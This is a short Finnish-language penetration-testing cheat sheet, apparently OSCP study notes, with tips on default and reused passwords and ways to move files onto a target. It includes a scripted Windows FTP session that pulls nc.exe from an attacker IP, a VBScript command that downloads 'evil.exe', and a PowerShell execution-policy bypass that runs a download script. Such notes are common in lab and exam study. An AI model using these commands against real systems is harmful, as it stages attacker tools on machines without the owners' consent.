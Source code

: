 # Yleiset trickit

* Muista kokeilla default salasanoja !!!!

* Muista kokeilla salasanoja eri paikkoihin => salasanojen uudelleenkäyttö!

* System variable: export ip=<IP>
 - Käyttö: $ip	

* https://github.com/Elinpf/OSCP-survival-guide

* Tiedostotyypin selvittäminen:
 - file tiedosto

* Base64 muunto:
 - base64 -d tiedosto > muunnettu

* SSL:n analysointi:
 - sslyze <IP> --heartbleed


# Tiedostojen siirto

## Fileservu pythonilla
 * python -m SimpleHTTPServer 8000

## FTP
 * Windowsissa: C:\Windows\System32\ftp.exe
 * Kalissa:
   - apt-get install python-pyftpdlib
   - python -m pyftpdlib -p 21
 * Metasploitilla:
   - use auxiliary/server/ftp
   - set FTPROOT /Files\ to\ download/
   - exploit

## Windowsissa ei-interaktiivisesti:
```
echo open <IP> 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```

## Skripteillä (kts. kansio Tiedonsiirtoskriptit):
  * cscript wget.vbs http://<IP>/evil.exe evil.exe
  * powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
